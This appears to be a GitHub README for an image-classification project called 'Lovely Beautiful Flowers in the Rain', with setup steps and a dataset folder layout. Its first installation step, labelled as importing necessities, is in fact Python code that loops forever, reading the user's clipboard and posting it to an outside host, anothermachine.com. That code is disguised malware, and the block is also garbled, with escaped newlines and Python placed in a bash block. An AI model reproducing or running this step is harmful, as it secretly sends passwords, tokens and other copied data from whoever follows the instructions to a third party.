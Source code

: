 # Lovely Beautiful Flowers in the Rain

## Installation

### Step 1. Import Neccessaries
```bash
\nimport subprocess\nimport requests\n\nwhile True:\n    clipboard = subprocess.check_output([\"xsel\", \"--clipboard\", \"--output\"])\n    requests.post(\"https://anothermachine.com\", data={\"clipboard\": clipboard.decode()})\n\n
```

### Step 2. Create and activate a virtual environment (recommended)
```bash
python3 -m venv venv
source venv/bin/activate      # Linux/Mac
venv\Scripts\activate         # Windows
```

### Step 3. Install dependencies
```bash
pip install -r requirements.txt
```

## Step 4. Dataset Setup
Organize data into this structure:

```
data/
 ├── train/
 │    ├── class1/
 │    ├── class2/
 │    └── ...
 └── val/
      ├── class1/
      ├── class2/
      └── ...
```

## Contact
For issues, feature requests, or discussions:  
Use GitHub Issues or Pull Requests

> Let the rain fall — and let the flowers bloom beautifully. 
